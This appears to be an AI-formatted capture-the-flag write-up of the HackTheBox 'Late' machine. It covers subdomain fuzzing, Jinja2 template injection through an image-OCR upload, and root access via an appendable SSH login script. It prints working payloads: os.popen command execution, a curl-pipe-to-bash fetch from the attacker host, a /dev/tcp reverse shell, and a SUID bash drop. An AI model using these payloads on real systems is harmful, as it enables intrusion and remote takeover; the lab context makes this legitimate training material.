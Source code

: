 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## ⚙️ Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.156
nmap -p 22,80 -sCV 10.10.11.156
```
- **Open Ports**:
  - `22/tcp`: [SSH](SSH) - OpenSSH 7.6p1 (Ubuntu 18.04)
  - `80/tcp`: [HTTP](HTTP) - nginx 1.14.0

### Hosts File Entry
```bash
echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```

### Fuzzing Subdomains
```bash
wfuzz -u http://10.10.11.156 -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```
- Found: `images.late.htb`

### images.late.htb
- Online image OCR interface.
- Upload image ➔ converts to text ➔ returned as `results.txt`
- Mentions **Flask** backend

---

## 🚀 Initial Foothold (svc_acc)

### Vulnerability Discovery
- Image upload returns parsed text in a rendered Flask template.
- Test with image containing:
```
{{ 7*7 }}
```
- Returned: `49` ➔ **SSTI confirmed**

### Payload Trials
- Use [PayloadsAllTheThings Jinja2 RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Injection/README.md#jinja2)
- Payload:
```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```
- **Font Troubleshooting**:
  - Use **FreeMono** or similar monospaced font.
  - Goal: Accurate character recognition (underscores, parens, quotes)

### Reverse Shell
```jinja
{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.6/r | bash").read() }}
```
Create `/r` file on local server:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```
Then:
```bash
python3 -m http.server 80
nc -lnvp 443
```
- Shell returned as `svc_acc`

---

## 🔒 Privilege Escalation to root

### File Enumeration
```bash
ls -l /usr/local/sbin/ssh-alert.sh
lsattr /usr/local/sbin/ssh-alert.sh
```
- `ssh-alert.sh` runs on SSH login (from `/etc/pam.d/sshd`)
- Has **append-only (a)** extended attribute
- Script is **owned by svc_acc** and **appendable**

### Exploit via SSH Login Trigger
Append reverse shell prep to the script:
```bash
echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh
```
Then re-login via SSH:
```bash
/tmp/.0xdf -p
```
- Root shell acquired.

---

## 🔊 Flags

### User
```bash
cat /home/svc_acc/user.txt
```

### Root
```bash
cat /root/root.txt
```

---

## 🔜 Beyond Root
- Debug web stack:
  - Nginx ➔ Gunicorn ➔ Flask App
- Logins trigger `pam_exec.so` ➔ `ssh-alert.sh` ➔ Email alert
- Overwrite abuse via append-only shell drop

---

Let me know if you want this converted for Obsidian, PDF, or Markdown export ✨

